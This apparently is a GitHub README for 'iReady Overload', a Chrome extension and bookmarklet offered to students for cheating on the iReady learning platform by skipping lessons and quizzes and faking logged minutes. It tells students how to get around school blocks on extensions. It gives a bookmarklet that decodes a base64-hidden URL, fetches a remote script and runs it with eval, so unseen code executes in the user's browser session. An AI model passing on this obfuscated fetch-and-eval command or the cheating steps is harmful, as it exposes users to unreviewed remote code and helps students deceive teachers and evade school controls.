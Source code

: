 <h1 align="center">iReady Overload</h1>
<h3 align="center">One of the BEST up to date iReady hacks.</h3>
<h2 align="center">Discord Support Server: https://discord.gg/scs9eapdS7</h2>

## How To Use:

- Download the chrome extension by downloading the files
Go to "chrome://extensions/", and on the top right make sure "Developer mode" is turned on (if your school blocks this, see the bookmarklet below) then unzip chromeExtension.zip and drag the "iReady Overload" folder onto the page and ur good.

## Bookmarklet

- A bookmarklet can be used instead of the chrome extension, incase your school has blocked extentions. To do this:
    Make a bookmark (the star on the right side of the top url/search bar if you are using chrome)
    Click on more at the bottom left corner
    Delete everything in the url box
    Type javascript:
    Paste in the following code fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vY3VwaWRpdHlzL3Jhdy91cGxvYWQvdjE2MzgzNDExMjEvYm9va21hcmtsZXQuanM=')).then((res) => res.text().then((t) => eval(t))) (this will auto-update)
Alternatively, you can use this version if the other one is not working for whatever reason (this one will not auto-update)

iReady is awful. It's the worst education tool anyone could ever use. I'm fed up with being forced to mindlessly watch the result of a greedy corporation that doesn't try in the SLIGHTEST to make their product enjoyable, or even acceptable. This repository is a collection of hacks and a chrome extension that ensures nobody has to suffer through iReady ever again. The current version has a lesson, quiz skipper, and a minutes hack.

I am not the creator of this project, I am constanting updating the program to work with iReady's code. THIS is a cheat, I am not responsible if iReady sends info to your teachers that you are using this program it is not my fault. credit to ArjhanToteck for originally making this and also cupiditys (but they both deleted their project.) 
